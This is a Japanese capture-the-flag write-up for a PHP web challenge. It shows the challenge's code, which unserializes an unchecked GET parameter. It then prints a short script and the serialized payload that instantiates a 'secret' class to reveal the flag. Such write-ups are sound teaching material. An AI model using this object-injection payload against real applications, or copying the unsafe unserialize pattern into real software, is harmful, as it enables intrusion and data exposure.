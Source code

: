 # [Web(easy)]Yonezer

## 問題文

米津玄師の音楽をシェアしたかったので簡単なアプリケーションを書いてみました。

<http://203.0.113.1:14001/>

---

作問者(Author): [wa1m3im](https://twitter.com/wa1m3) / レビュワー(Reviewer): [odgrso](https://twitter.com/odgrso)

## Writeup

ソースコードを確認するとGETリクエストで受け取った`data`パラメータをデシリアライズしていることが確認できる。

```php
$serialized = @$_GET["data"];
$hoge = @unserialize($serialized);
if($hoge){
	$hoge->data();

}
```

また、対象のアプリケーションでは`share_video`と`secret`クラスが宣言されている。

```php
class secret{

	public function data(){
		global $flag;
		echo($flag);
	}

}



class share_video{
	public $text="Hello Everone";

	public function data(){
		echo("<h1>" . html($this->text) . "</h1><br>");
		echo("<MARQUEE><h1>Do you like this video &#x1f440;?</h1></MARQUEE>\n");
		$urls = ["https://www.youtube.com/embed/s582L3gujnw","https://www.youtube.com/embed/gJX2iy6nhHc", "https://www.youtube.com/embed/SX_ViT4Ra7k","https://www.youtube.com/embed/Zw_FKq10S8M"];
		$num = rand(0,3);
		$url = $urls[$num];
		echo ("<div id=\"all\"><iframe width=\"1000\" height=\"600\" src=\"". $url . "\"></iframe></div>");

		}
	}
```

`secret`クラスではflag.txtを読み込んで出力する処理が書かれているのでこのクラスを呼び出すことによってフラグを獲得することができる。

よってローカル環境で以下のphpスクリプトを実行後、出力されたデータをURLパラメータに付与することによってフラグを獲得することができる。

```php
<?php
class secret{

	public function data(){
	global $flag;
	echo($flag);
    }

}

$obj =  new secret();
echo(serialize($obj));

?>
```

```bash
$php solve.php
O:6:"secret":0:{}
```

![flag](media/flag.png)

### flag

`ISCCTF{s3r14r41z3_1s_us3ful}`

